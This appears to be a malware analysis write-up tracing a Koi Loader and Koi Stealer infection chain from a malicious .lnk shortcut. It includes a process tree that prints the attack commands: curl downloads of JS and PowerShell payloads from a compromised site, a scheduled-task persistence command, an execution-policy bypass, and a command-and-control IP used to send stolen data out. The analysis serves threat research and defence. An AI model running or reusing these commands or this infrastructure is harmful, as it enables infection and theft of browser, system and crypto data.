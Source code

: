 **Step 4**: Payload Delivery
Downloaded JS files trigger:

PowerShell script downloads (.ps1)

Final payload executable: hypochnosedxY.exe

**Step 5**: Stealer Activation
Final EXE executes and:

Steals browser/system/crypto info

Sends data to: 193.29.57.167

## Process Tree

```plaintext
explorer.exe
└───chase_28_06_25.lnk  (user double-click)
     └───powershell.exe (hidden)
          ├───curl.exe -s -L -o tzldirf5ddw1aq.js https://conleyuniversity.us/wp-content/uploads/2016/04/unalphabetedbQFK.php
          ├───curl.exe -s -L -o fci6u30bkw0w https://conleyuniversity.us/wp-content/uploads/2016/04/excommengeoB.php
          ├───rename fci6u30bkw0w → 8t9fognkq.js
          ├───schtasks.exe /create /sc minute /mo 1 /tr [malicious JS] /tn 8t9fognkq
          │    └── Scheduled Task (repeated execution)
          └───[Start of repeated scheduled execution]
               └───wscript.exe tzldirf5ddw1aq.js 8t9fognkq.js
                    └───powershell.exe
                         ├───curl.exe -o abstractingN1.php.ps1
                         ├───curl.exe -o unlivablenessLpW4.ps1
                         ├───powershell.exe -ExecutionPolicy Bypass -File unlivablenessLpW4.ps1
                         ├───curl.exe -o hypochnosedxY.exe
                         └───hypochnosedxY.exe (FINAL PAYLOAD – KOI STEALER)
                              └───Network connections:
                                   ├───193.29.57.167 (C2)
                                   └───Data exfiltration / beaconing
```

## `.lnk` shortcut file Dynamic Analysis

This .lnk (Windows shortcut) file serves as the initial execution vector in the infection chain, designed to download and execute JavaScript payloads that further retrieve and run Koi Loader and eventually Koi Stealer.


<img width="1267" height="238" alt="image" src="https://github.com/user-attachments/assets/bce45da8-bb3b-4f4e-b51c-a2a6868293cf" />


<img width="1218" height="363" alt="image" src="https://github.com/user-attachments/assets/974c761e-df32-466e-a19a-20ca7350d693" />


We can see the command line argument info and the files that it drops

